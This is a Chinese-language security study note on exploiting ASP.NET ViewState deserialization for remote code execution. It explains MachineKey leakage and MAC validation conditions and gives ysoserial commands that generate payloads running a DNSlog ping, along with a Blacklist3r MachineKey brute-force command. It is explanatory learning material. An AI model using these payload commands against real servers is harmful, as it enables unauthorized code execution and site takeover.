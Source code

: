 ```yaml
---
layout: post
title: "【网络安全】ASP.NET ViewState反序列化漏洞学习"
subtitle: "This is a subtitle"
date: 2024-08-03
author: "3thernet"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


最近连续参加的几次攻防都有见到 ViewState 反序列化漏洞 getshell 的身影，算是红队基本功，简单做下笔记。

相关工具：

1. [ysoserial](https://github.com/pwntester/ysoserial.net)

2. [Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

## 0x01 概述

ViewState用于在请求之间保持Web控件和页面的状态，防止服务器返回错误导致状态被清空。数据会被序列化成Base64字符串并嵌入页面的隐藏字段（通常是`__VIEWSTATE`）。

漏洞成因在于ASP.NET使用`LosFomatter`序列化 ViewState，并使用`ObjectStateFormatter`反序列化 ViewState。而 ViewState 又完全由客户端提交，尽管过程中可以进行**加密**和**签名**，但一旦相关的 Machinekey（decryption, validation相关信息）泄露，就会触发 ObjectStateFormatter 的反序列化漏洞。

MachineKey 通常显示配置在`web.config`文件中。如果没有显式配置，ASP.NET会自动生成一个密钥，但在应用程序重启时可能会发生变化，导致无法解密先前加密的数据。(?)

示例：

```
<machineKey 
validationKey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" 
decryptionKey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" 
validation="SHA1" 
decryption="AES"  />
```

## 0x02 利用条件

1. ASP.NET<4.5.x，未开启MAC验证

2. ASP.NET<4.5.x，开启MAC验证，ysoserial 工具需要知道 validation 算法，validationkey 来生成 ViewState 的 payload。即使`ViewStateEncryptionMode`已设置为`Always`，ASP.NET 仅会检查请求中是否存在`__VIEWSTATEENCRYPTED`参数，如果删除此参数并发送未加密的有效负载，它仍将被处理

3. ASP.NET>=4.5.x，开启MAC验证，和上一条的区别在于 ysoserial 工具除了需要知道 validation 算法，validationkey，还需要知道 decryption算法和 decryptionkey 来生成 ViewState 的 payload

### 2.1 未开启MAC验证

未开启MAC验证的情况不太常见，ASP.NET4.5.2版本以后强制开启 MAC 验证，手动关闭需要两步：

1、修改注册表 AspNetEnforceViewStateMac 为 0

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{version}`

2、修改 web.config 中的 enableViewStateMac 选项为 false

判断是否开启MAC验证：发送`__VIEWSTATE=AAAA`（简单的base64），如果目标页面回显错误，表示MAC验证已被禁用，否则不会显示错误页面（也可能显示具体MAC校验错误信息）

这种情况直接上 payload：

```powershell
.\ysoserial.exe
-o base64
-g TypeConfuseDelegate
-f LosFormatter
-c "ping 123456.dnslog.cn"
# 指定-f LosFormatter或者-p ViewState
```

### 2.2 ASP.NET < 4.5.x，开启MAC验证

ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的隐藏表单中。换言之，如果表单中没有该选项，就需要黑盒爆破获得apppath。path可以通过请求路径得出：蒋其中的`.`和`/`替换为为`_`，如`a/b/c.aspx`的最终类型名为`a_b_c_aspx`。

```powershell
.\ysoserial.exe
-o base64
-p ViewState
-g TextFormattingRunproperties
-c "ping 123456.dnslog.cn"
--path="/site/test.aspx"
--apppath="/"
--validationalg="SHA1"
--validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
```

### 2.3 ASP.NET >= 4.5.x，开启MAC验证

高版本的ASP.NET能否强行关闭MAC验证，只启用加密？（未做实验）

```powershell
.\ysoserial.exe
-o base64
-p ViewState
-g TextFormattingRunproperties
-c "ping 123456.dnslog.cn"
--generator=CA0B0334
--validationalg="SHA1"
--validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
--decryptionalg="3DES"
--decryptionkey="CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC"
```

### 2.4 MachineKey

开启 MAC 验证后必须知道 Machinekey 才能打，一般是通过任意文件读取或者XXE漏洞获得，也可以使用 Blacklist3r 工具爆破：

```powershell
.\ASPNetWrapper.exe
--keypath MachineKeys.txt
--encrypteddata={__VIEWSTATE}
--modifier={__VIEWSTATEGENERATOR}
```

### 2.5 其他

借助 yso 的 islegacy 和 isdebug 开关，可以尝试猜测 path 和 apppath 的值

如果服务器设置了 ViewStateUserKey，则需要在添加`--viewstateuserkey`选项

## 0x03 攻击链

TypeConfusedDelegate 链？

ActivitySurrogateSelectorFromFile 链?

## 0x04 ViewState CVE

- CVE-2020-0688

- CVE-2020-16592

## 0x05 参考

- [.NET 分享ViewState反序列化漏洞个人总结 (qq.com)](https://mp.weixin.qq.com/s/7mtTDKQ3eJet3rxLKZyBNw)

- [深入 .NET ViewState 反序列化及其利用 (qq.com)](https://mp.weixin.qq.com/s/RlY5HL_ak4G8EdcXyevWDg)

- [通过 ViewState 利用 ASP.NET 中的反序列化 |Soroush Dalili （@irsdl） 博客](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

- [玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 | DEVCORE 戴夫寇爾](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)

- [ViewState反序列化 - zpchcbd - 博客园 (cnblogs.com)](https://www.cnblogs.com/zpchcbd/p/15112047.html)

- [TypeConfusedDelegate以及魔改yso - Gr3yy's Blog (gr3yyy123.github.io)](https://gr3yyy123.github.io/2022/05/28/TypeConfusedDelegate%E4%BB%A5%E5%8F%8A%E9%AD%94%E6%94%B9yso/)

- [.Net ViewState反序列化实现无文件哥斯拉内存马 – Whwlsfb's Tech Blog (wanghw.cn)](https://blog.wanghw.cn/security/dotnet-viewstate-no-file-godzilla-memshell.html)

- [利用ViewState在ASP.NET中实现反序列化RCE - 技术转载 安全矩阵 (smatrix.org)](http://www.smatrix.org/forum/forum.php?mod=viewthread&tid=331)

- [利用.NET 反序列化做权限维持 | MYZXCG](https://myzxcg.com/2021/11/%E5%88%A9%E7%94%A8.NET-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%81%9A%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

- [CVE-2020-0688的武器化与.net反序列化漏洞那些事-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/199921#h3-9)

- [Zero Day Initiative — CVE-2020-0688: Remote Code Execution on Microsoft Exchange Server Through Fixed Cryptographic Keys](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
